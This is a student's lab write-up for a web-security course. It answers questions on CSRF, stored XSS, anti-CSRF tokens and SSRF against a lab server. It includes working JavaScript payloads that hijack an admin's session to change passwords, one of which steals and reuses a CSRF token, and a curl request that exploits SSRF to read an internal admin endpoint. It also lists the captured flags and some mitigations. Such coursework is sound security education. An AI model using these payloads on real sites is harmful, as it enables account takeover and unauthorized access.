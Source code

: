 # SLH - LAB01

Rhyan Robertson

## 2 Basic CSRF

### 2.1. The website is also vulnerable to an XSS but you won’t detect it with a `<script>alert(1)</script>.` How can you detect it?

We cannot detect it using `alert();` because we don't see the result of the form submission.

### 2.2. Try to exfiltrate the admin cookie with the XSS. It does not work because of http-only. Explain what is http-only and how it prevents the exfiltration.

The http-only flag prevents the client side script from accessing the cookie. This helps mitigate CRSF attacks because if the admin cannot read/edit his own cookie, the attacker cannot either.

### 2.3. The website is also vulnerable to a CSRF. Which script is vulnerable?

The contact form is because it sends a message to the administrator.

### 2.4. What is the flag of this challenge?

The flag is : **uM}&+6*qLwFet}AX**

### 2.5. How did you obtain the flag? Describe clearly your attack. In particular, explain where the XSS is and what type of XSS it is ?

I used a **Stored XSS** attack by sending a script that runs on the admins browser.

Using the contact form, we can send a message to the administrator who sees them directly in his DOM. Thus we can make the admin execute the following code without them needing to do anything else other than open the page to view the messages.

```js
Hello
<script>
let newPassword = {password: "rhyan"};

fetch('profile/rhyan.robertson@heig-vd.ch_admin', {
    method: 'POST',
    headers: {'Content-type':'application/json'},
    body: JSON.stringify(newPassword)
})           
</script>
```

This script then imitates the admin changing the password from the **New password** form on the profile page. We do this by sending the same POST request as the form would have.

## 3 More Advanced CSRF

### 3.1. What is an anti-CSRF token? Explain in details how it works

The server generates a unique, pseudo-random, "unpredictable" and "secret" value that is stored both server and client side. It's used to verify that a future HTTP request is made by the current user (by matching both values).

Typically, the value is stored in a hidden html element on the client-side.

### 3.2. How do you see that the form is protected with an anti-CSRF token?

This hiddent input is a clue : `<input type="hidden" name="_csrf" value="oKuj5aK5-hbwr8t570AyARJi6-IapyiKwxaY">`

### 3.3. The website is also vulnerable to an XSS. What is the flag of this challenge?

p+)[4/MhHEetD3fZ

### 3.4. How did you obtain the flag? Describe clearly your attack

We caputre the current csrf token of the admin and use it to send the request.

```js
var csrf;
var xmlhttp = new XMLHttpRequest();

xmlhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        let textblock = this.responseText;
        let lines = textblock.split('\n');
        let line = lines.at(24);
        csrf = line.substring(60, line.length - 3);
        

        fetch('profile/rhyan.robertson@heig-vd.ch_admin', {
            method: 'POST',
            headers: {'Content-type':'application/json'},
            body: JSON.stringify({
                password: "1234",
                _csrf: csrf
            })
        })
    }
};
xmlhttp.open("GET", "/profile/rhyan.robertson@heig-vd.ch", true);
xmlhttp.send();
```

### 3.5. How would you secure the website?

Check and sanitize (e.g. escaping or filtering control characters and validating) messages received before displaying them.

<https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html>

## 4 SSRF

### 4.1. The flag is confidential, it should not be indexed by search engines robots. Where is the flag? How did you find this information?

Thanks to the info that search engine robots should not index the flag, we can guess that it's disallowd in the <http://iict-mv310-slh:8082/robots.txt> file.

Location : <http://iict-mv310-slh:8082/api/admin/flag>

### 4.2. You are not allowed to access the flag. Exploit an SSRF to obtain it. What is the flag? Hint: Read the javascript code of the page

Flag : `SLH22{zfrHW42XZMgpoyvEk}`

### 4.3. How did you obtain the flag? Describe clearly your attack

We can use the test api to get the server admin to access a url and send us a response. Since the admin has the access rights to /api/admin/flag, we get the flag in response :

The request :

```http
POST /api/webhook/test HTTP/1.1
Host: iict-mv310-slh:8082
Content-Type: application/json
Content-Length: 64

{"url":"http://localhost:8082/api/admin/flag", "message":"test"}
```

Send it with curl :

```bash
curl --location --request POST 'http://iict-mv310-slh:8082/api/webhook/test' \
--header 'Content-Type: application/json' \
--data-raw '{"url":"http://localhost:8082/api/admin/flag", "message":"test"}'
```

Response :

```json
{"res":"Not a valid Discord webhook","webhook_data":{"flag":"SLH22{zfrHW42XZMgpoyvEk}"}}
```

### 4.4. How would you prevent this attack ?

Validate the url on the server-side and block same domain requests with a proxy.